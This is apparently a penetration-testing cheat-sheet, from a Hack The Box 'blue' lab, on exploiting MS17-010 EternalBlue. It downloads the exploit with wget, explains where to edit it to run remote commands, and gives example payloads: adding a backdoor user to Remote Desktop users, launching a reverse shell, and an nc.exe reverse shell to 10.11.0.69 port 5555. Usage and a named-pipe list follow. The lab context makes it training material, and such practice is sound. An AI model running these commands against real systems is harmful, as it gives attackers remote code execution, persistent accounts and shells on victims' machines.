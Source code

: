 # MS17-010 Eternalblue

```bash
wget https://www.exploit-db.com/download/42315 -O MS17-010.py
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```

Modify accordingly for remote command to be executed at approximately Line 916
examples:

`service_exec(conn, r'cmd /c net localgroup "Remote Desktop users" hacker1 /add')`

`service_exec(conn, r'cmd /c reverse_shell.exe')`

`service_exec(conn, r'cmd /c \\10.11.1.227\share\nc.exe 10.11.0.69 5555 -e cmd.exe')`

Usage:
```bash
python MS17-010.py <ip> <pipe>
```

For pipes you could use the following:
```bash
pipe list:
root@kali:/mnt/hgfs/HTB/blue/exploit# cat /usr/share/metasploit-framework/data/wordlists/named_pipes.txt
netlogon
lsarpc
samr
browser
atsvc
DAV RPC SERVICE
epmapper
eventlog
InitShutdown
keysvc
lsass
LSM_API_service
ntsvcs
plugplay
protected_storage
router
SapiServerPipeS-1-5-5-0-70123
scerpc
srvsvc
tapsrv
trkwks
W32TIME_ALT
wkssvc
PIPE_EVENTROOT\CIMV2SCM EVENT PROVIDER
db2remotecmd
```
